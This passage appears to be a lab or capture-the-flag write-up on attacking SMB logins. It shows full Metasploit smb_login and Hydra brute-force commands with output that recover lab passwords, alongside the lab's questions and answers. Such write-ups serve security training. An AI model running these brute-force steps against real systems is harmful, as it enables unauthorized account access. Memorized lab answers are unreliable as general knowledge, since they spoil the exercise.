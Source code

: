 ```
References:
  https://cvedetails.com/cve/CVE-1999-0506/

msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.121.181.3
RHOSTS => 192.121.181.3
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser jane
SMBUser => jane
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > exploit

[*] 192.121.181.3:445     - 192.121.181.3:445 - Starting SMB login bruteforce
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:admin',
[!] 192.121.181.3:445     - No active DB -- Credential data will not be saved!
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:123456',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:12345',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:123456789',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:password',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:iloveyou',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:princess',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:1234567',
[-] 192.121.181.3:445     - 192.121.181.3:445 - Failed: '.\jane:12345678',
[+] 192.121.181.3:445     - 192.121.181.3:445 - Success: '.\jane:abc123'
[*] 192.121.181.3:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_login) > exit
```

What is the password of user “admin” required to access share “admin”? Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt

`[445][smb] host: 192.121.181.3   login: admin   password: password1`

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```
root@attackdefense:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.121.181.3 smb
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-20 09:15:39
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.121.181.3:445/
[445][smb] host: 192.121.181.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-20 09:15:41
```

Which share is read only? Use smbmap with credentials obtained in question 2.
